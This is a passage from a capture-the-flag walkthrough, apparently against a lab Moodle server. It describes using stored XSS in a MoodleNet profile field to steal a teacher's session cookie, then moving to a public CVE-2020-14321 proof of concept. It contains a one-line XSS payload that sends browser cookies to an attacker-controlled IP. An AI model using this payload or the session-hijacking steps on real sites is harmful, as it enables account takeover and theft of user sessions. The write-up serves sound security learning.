 <img src="https://imgur.com/gVT5uPW.png"/>

<img src="https://imgur.com/dfQlWwm.png"/>

So appearntly I was doing it wrong and trying the xss session hijacking here as we were the only one who were triggering the file. The announcment had a message 

```bash
This is a self enrollment course. For students who wish to attend my lectures be sure that you have your MoodleNet profile set.

Students who do not set their MoodleNet profiles will be  removed from the course before the course is due to start and I will be checking all students who are enrolled on this course. 
```

So instead of injecting xss on chat , let's try on where we set moodle net profile also I used this xss cookie stelaer

https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md


```
<img src=x onerror="this.src='http://10.10.14.81:8888/?'+document.cookie; this.removeAttribute('onerror');">
```

<img src="https://imgur.com/t3SsCwc.png"/>

Now run the cookie stealer python script

<img src="https://imgur.com/UmrSonW.png"/>

At first you'll see your own cookie but after sometime that script will be accessed by teacher's account and you'll get his session cookie , so copy the session cookie and replace it with your current session cookie

<img src="https://imgur.com/ZQMvT3l.png"/>

After becoming the teacher , I saw an option to switch roles

<img src="https://imgur.com/YmPS53j.png"/>

On moodle's there are a bunch of reported vulnerabilities so I went reading about each one seemed intersting to me

<img src="https://imgur.com/FqBXwoL.png"/>

And PoC was available on github

https://github.com/HoangKien1020/CVE-2020-14321

<img src="https://imgur.com/6mAZzkW.png"/>

So here enroll click on enrolling the user and intercept the request with burp then send it to repeater

<img src="https://imgur.com/XdYlJwT.png"/>
